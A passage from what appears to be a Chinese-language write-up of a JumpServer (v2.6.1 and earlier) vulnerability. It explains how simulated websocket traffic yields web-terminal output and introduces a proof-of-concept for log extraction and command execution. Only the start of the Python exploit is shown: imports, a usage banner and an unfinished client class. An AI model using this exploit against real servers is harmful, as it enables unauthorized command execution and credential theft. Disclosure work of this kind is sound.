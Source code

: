 模拟连接发送和接发数据

![](image/jump-16.png)

这里可以看到我们只要模拟了这个发送，返回的数据和web终端是一样的，那我们就可以通过这样的方法来进行命令执行了



## 漏洞利用POC

> [!NOTE]
>
> POC 里包含两个方法，一个是获取日志文件，另一个是命令执行
>
> 日志提取已经过滤了部分API调用的数据，只需要找到那几个值就好了
>
> 命令执行需要从日志中获取敏感数据并写入脚本对应的变量中 
>
> 接收数据如果卡住请调整 for i in range(7) 这个位置的 7

```python
import requests
import json
import sys
import time
import asyncio
import websockets
import re
from ws4py.client.threadedclient import WebSocketClient

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mPOC_Des: https://www.o2oxy.cn/                                    \033[0m')
    print('+  \033[34mVersion: JumpServer <= v2.6.1                                     \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                           \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                            \033[0m')
    print('+  \033[36mCmd         >>> whoami				                            \033[0m')
    print('+------------------------------------------')

class ws_long(WebSocketClient):

```